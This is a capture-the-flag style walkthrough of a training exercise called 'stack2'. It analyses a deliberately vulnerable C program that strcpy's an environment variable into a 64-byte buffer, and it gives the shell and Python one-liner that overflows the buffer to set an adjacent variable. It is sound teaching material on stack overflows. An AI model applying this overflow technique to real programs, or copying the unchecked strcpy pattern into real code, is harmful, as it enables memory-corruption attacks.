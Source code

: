 We can see that there is some function call `getenv` which gets the environment
variable on line `main+16`

We can also see that eventually there is some compare operation in `main+84`.
This hints to us that there might be some variable that we need to modify to
the value *0x0d0a0d0a*.

## Idea and Attack process

We try to guess that the environment variable might be linked to the cmp
operation. We first try to set the env in the shell and run the code.

```shell
export GREENIE=GREENIE=$(python -c 'print "\x0a\x0d\x0a\x0d"')
./stack2
>>>Try again, you got 0x00000000
```

We can see that the output of the code gave us some unset variable. This suggest
that the modification of the env variable is insufficient.

We continue to see that on `main+75` that we might need to exploit `strcpy`. From `main+60` to `main+72` we see that there is a copy of a variable pointer and buffer pointer below esp.
We can see that the address of the buffer starts `esp+18` and the address of the variable to be modified is `esp+58`, so we can do a buffer overflow to overwrite the value in the variable.

```shell
export GREENIE=$(python -c 'print "1234567890123456789012345678901234567890123456789012345678901234\x0a\x0d\x0a\x0d"')
./stack2
>>>you have correctly modified the variable
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
